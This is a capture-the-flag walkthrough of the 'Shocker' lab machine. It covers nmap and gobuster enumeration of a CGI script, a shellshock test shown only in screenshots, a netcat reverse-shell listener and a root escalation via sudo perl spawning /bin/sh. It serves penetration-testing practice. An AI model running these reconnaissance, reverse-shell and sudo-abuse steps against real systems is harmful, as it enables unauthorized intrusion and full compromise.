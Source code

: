 nmap scan:

```
sudo nmap -sV -sC 10.10.10.56
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Enumerating port 80

We have this website:

![image1](/assets/images/htb-shocker/shocker1.png)

Using gobuster to find hidden directories:

```
sudo gobuster -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.56 -t 50
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/server-status (Status: 403)
```

Let's try to find files on `/cgi-bin/`:

```
sudo gobuster -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin -t 50 -x sh,pl
/user.sh (Status: 200)
```

`/user.sh`:

![image2](/assets/images/htb-shocker/shocker2.png)

It's a bash script that displays the hour

Now let's send this request to burp and then to the repeater

![image3](/assets/images/htb-shocker/shocker3.png)

### Testing if it's vulnerable to shellshock

The name of the box is a hint to try shellshock:

![image4](/assets/images/htb-shocker/shocker4.png)

It is vulnerable, we listed files.

### Exploiting shellshock to get a reverse shell

![image5](/assets/images/htb-shocker/shocker5.png)

```
nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.10.56 35622
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

### Privilege Escalation

```
sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can execute perl as root, so execute `/bin/sh`

```
sudo perl -e 'exec "/bin/sh";' 
```
